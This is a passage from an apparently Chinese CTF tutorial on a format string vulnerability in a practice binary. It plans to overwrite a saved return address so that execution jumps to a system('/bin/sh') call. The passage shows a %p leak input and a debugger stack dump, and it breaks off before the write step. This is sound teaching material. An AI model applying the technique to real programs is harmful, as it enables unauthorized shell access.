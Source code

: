 好，这就差不多了。此外，也可以发现这个账号密码其实没啥配对不配对的。

#### 利用思路

我们最终的目的是希望可以获得系统的 shell，可以发现在给定的文件中，在 0x00000000004008A6 地址处有一个直接调用system('bin/sh') 的函数（关于这个的发现，一般都会现在程序大致看一下。）。那如果我们修改某个函数的返回地址为这个地址，那就相当于获得了 shell。

虽然存储返回地址的内存本身是动态变化的，但是其相对于 rbp 的地址并不会改变，所以我们可以使用相对地址来计算。利用思路如下

- 确定偏移
- 获取函数的 rbp 与返回地址
- 根据相对偏移获取存储返回地址的地址
- 将执行 system 函数调用的地址写入到存储返回地址的地址。

#### 确定偏移

首先，我们先来确定一下偏移。输入用户名 aaaaaaaa，密码随便输入，断点下在输出密码的那个 printf(&a4 + 4) 函数处

```text
Register Account first!
Input your username(max lenth:20): 
aaaaaaaa
Input your password(max lenth:20): 
%p%p%p%p%p%p%p%p%p%p
Register Success!!
1.Sh0w Account Infomation!
2.Ed1t Account Inf0mation!
3.QUit sangebaimao:(
>error options
1.Sh0w Account Infomation!
2.Ed1t Account Inf0mation!
3.QUit sangebaimao:(
>1
...
```

此时栈的情况为

```text
─────────────────────────────────────────────────────────[ code:i386:x86-64 ]────
     0x400b1a                  call   0x400758
     0x400b1f                  lea    rdi, [rbp+0x10]
     0x400b23                  mov    eax, 0x0
 →   0x400b28                  call   0x400770
   ↳    0x400770                  jmp    QWORD PTR [rip+0x20184a]        # 0x601fc0
        0x400776                  xchg   ax, ax
        0x400778                  jmp    QWORD PTR [rip+0x20184a]        # 0x601fc8
        0x40077e                  xchg   ax, ax
────────────────────────────────────────────────────────────────────[ stack ]────
0x00007fffffffdb40│+0x00: 0x00007fffffffdb80  →  0x00007fffffffdc30  →  0x0000000000400eb0  →   push r15	 ← $rsp, $rbp
0x00007fffffffdb48│+0x08: 0x0000000000400d74  →   add rsp, 0x30
0x00007fffffffdb50│+0x10: "aaaaaaaa"	 ← $rdi
0x00007fffffffdb58│+0x18: 0x000000000000000a
0x00007fffffffdb60│+0x20: 0x7025702500000000
0x00007fffffffdb68│+0x28: "%p%p%p%p%p%p%p%pM\r@"
0x00007fffffffdb70│+0x30: "%p%p%p%pM\r@"
0x00007fffffffdb78│+0x38: 0x0000000000400d4d  →   cmp eax, 0x2
```
